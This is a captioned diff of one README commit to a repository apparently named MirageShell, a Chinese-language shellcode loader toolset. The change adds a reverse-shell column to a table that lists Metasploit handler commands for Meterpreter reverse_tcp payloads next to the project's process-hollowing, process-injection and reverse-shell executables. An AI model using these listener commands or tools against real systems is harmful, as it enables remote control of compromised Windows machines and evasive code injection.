

Before and after one commit to RasAlGhul-1/MirageShell, a Markdown page: README.md, the part around the change. GitHub-like rendering.

Commit message:
Update README.md
Added corresponding reverse shell tool to the table.

```diff
--- a/README.md
+++ b/README.md
@@ -8,7 +8,7 @@ MirageShell 是一套“幻景”般的Shellcode加载工具集，融合动态
 
 ## 一览表
 
-|                              msf对应的快速开监听命令                              | 对应的进程镂空工具 | 对应的进程注入工具 |  |
+|                              msf对应的快速开监听命令                              | 对应的进程镂空工具 | 对应的进程注入工具 | 对应的反向shell工具 |
 | :---------------------------------------------------------------------------------: | -------------------- | -------------------- | -- |
 |      handler -H 192.168.1.88 -P 4444 -p windows/x64/meterpreter/reverse_tcp      | `Met64Hollow.exe`                   | `Met64Inject.exe`                   | `met64_tcp.exe` |
 |        handler -H 192.168.1.88 -P 4444 -p windows/meterpreter/reverse_tcp        | `MetHollow.exe`                   | `MetInject.exe`                   | `met_tcp.exe` |
```
